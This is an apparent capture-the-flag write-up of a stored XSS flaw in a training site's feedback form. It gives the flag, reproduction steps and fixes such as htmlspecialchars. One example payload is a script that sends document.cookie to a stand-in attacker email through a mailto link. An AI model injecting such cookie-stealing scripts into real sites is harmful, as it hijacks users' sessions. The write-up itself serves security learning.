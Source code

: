 # Stored XSS

## Flag

0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

## Description

It's assumed that it's possible to inject code in the title or the comment field.
The XSS is considered stored since all injected code permanently stays in the feedback page, and is executed at each reload.
This one is a bit particular, because to get the flag we had to put one of those keywords (but not limited to) : a, script, p in one of the two fields.
Usually, to be dangerous, a XSS payload should contain html and/or javascript, but here everything contained inside tags is ignored.

## URL

http://192.168.x.y/?page=feedback

## Steps To Reproduce

Leave a new feedback, using the form on the page.

Put the following:

```
Name:     anything

Message:  a (or script, or p)
```

Then valid the form with the `Sign Guestbook` button

## Why is it dangerous ?

Mild one :
Some lusty hackers may love to inject img tags with skinless bananas, or video tags with some "romantic" content.

Lidl one :
It's also possible to put, with javascript, automatic redirections to this fantastic website : https://www.lidl.ch/fr/p/bakery/petit-pain-au-fromage/p9870
Everyone love Lidl's cheese bread, but it will be difficult to see the feedbacks if everytime I try to enter the page, I get automaticaly sent to the lidl store.

CorentinDuDarknet one :
If I can post a message like this :
```
Message : <script>
function sendMail(content) {
    var link = "mailto:blackhat@haxxor.com"
             + "?cc=myCCaddress@example.com"
             + "&subject=" + escape("Hello, I'm a chicken, here are my credentials :)")
             + "&body=" + escape(JSON.stringify(content))
    ;
    window.location.href = link;
}
window.onload(sendMail(document.cookie))</script>
``` 
I will get by mail the cookies of any user who will access to the feedback page, without even letting them notice anything.

## Possible fixes

- In php, htmlspecialchars()
- Escape html tags, quotes and slashes.
- Limit the charset manually (For exemple, alphanumerical + spaces + some allowed special chars)

## Resources

There is no additional resource for this issue.
